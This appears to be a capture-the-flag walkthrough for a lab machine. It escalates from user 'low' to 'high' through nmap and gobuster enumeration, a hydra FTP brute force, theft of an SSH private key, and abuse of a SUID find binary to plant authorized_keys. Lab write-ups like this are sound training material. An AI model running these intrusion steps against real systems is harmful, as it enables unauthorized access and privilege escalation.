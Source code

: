# Getting low user
- Navigate to IP address and see the web page. There we can find a user with name "low".
- With nmap, scan for the open ports and we can see that FTP is open on port 21, SSH on 22 and Apache on 80:
```
export $ip=192.168.10.10
sudo nmap -sC -sV -A -O -oN nmap/initial.log $ip -T4
```
- Go to port 80 and look around. We can't find anything useful. Try using gobuster:
```
gobuster -u http://$ip -w /opt/wordlist/medium.txt
```
- There, we find /archieves. We find a wordlist named note_about_passwords.txt
- We can see that it lists passwords that maybe can be used to login to other service, like port 21 / ftp.
- Save the wordlists, for example to `~/wordlist.txt`
- try bruteforcing using hydra:
`hydra -l low -P ~/wordlist.txt $ip ftp`
- We find the password: `ahimsa`
- login to ftp using:
```
ftp -p $ip

enter the user as: low
enter the password as: ahimsa
```
- Navigate there and look around, we can get private key
```
cd files
get id_rsa
```
- Also, we can find reminder.txt which says that we need to escalate 4 times.
- SSH as low user:
```
ssh -i id_rsa low@$ip
```
- get the user flag:
```
cat /home/low/low.txt
```

# Escalate to medium
- As we are logged in as low user, we need to escalate our way to other user, in this case medium user.
- Let's find some common vulnerabillity: (like SUID bit files)
```
find / -type f -user medium -perm -4000 2>/dev/null
```
- We get that find is running with SUID Bit set, let's exploit this and get to user medium.
```
touch somefile
/usr/local/bin/find somefile -exec mkdir /home/medium/.ssh \;
/usr/local/bin/find somefile -exec cp /home/low/.ssh/authorized_keys /home/medium/.ssh/authorized_keys \;
```
- What we did was copy the authorized keys of user Low to user Medium's authorized_keys. This allows us to login as Medium via SSH with Low's private key. There's a reason for this, it's because we need to read syslog to escalate from medium user to high user. Being in group adm is needed in order to read syslog. However, if we simply run /bin/bash like: `/usr/local/bin/find somefile -exec /bin/bash -p \;`, our group won't be able to read syslog (Medium user is in syslog group, but running like this command won't make us part of adm group).
- Then what we do next is exit our ssh session and ssh again as user medium like this:
```
ssh medium@$ip -i id_rsa
```
- We are logged in as user medium.
- get the medium flag:
```
cat /home/medium/medium.txt
```

# Escalate to high
- Go to /var/saved:
```
cat /var/saved/syslog.saved
```
- Since we are talking about 3 idiots, I want to make it a twist to make it idiot (Not really, digging on logs is quite useful sometimes). There, we find a chat between user high and medium. In the chat, we can deduce that his password is IPm@nTh3F1ght3r-2020.
- Do this:
```
su high

enter IPm@nTh3F1ght3r-2020 as the password
```
- Get the flag:
```
cat /home/high/high.txt
```